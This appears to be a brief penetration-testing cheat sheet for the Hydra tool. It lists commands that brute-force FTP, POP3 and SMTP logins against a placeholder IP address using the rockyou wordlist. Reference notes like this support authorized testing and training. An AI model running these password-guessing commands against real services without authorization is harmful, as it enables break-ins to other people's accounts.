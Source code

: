 ```yaml
---
title: Hydra
category: Hacking
---
```


|Command                                                                |Description           |
|-----------------------------------------------------------------------|----------------------|
|hydra -l USERNAME -P /usr/share/rockyou-75.txt -f 192.168.X.XXX ftp -V |Hydra FTP brute force |
|hydra -l USERNAME -P /usr/share/rockyou-75.txt -f 192.168.X.XXX pop3 -V|Hydra POP3 brute force|
|hydra -P /usr/share/rockyou-75.txt 192.168.X.XXX smtp -V               |Hydra SMTP brute force|
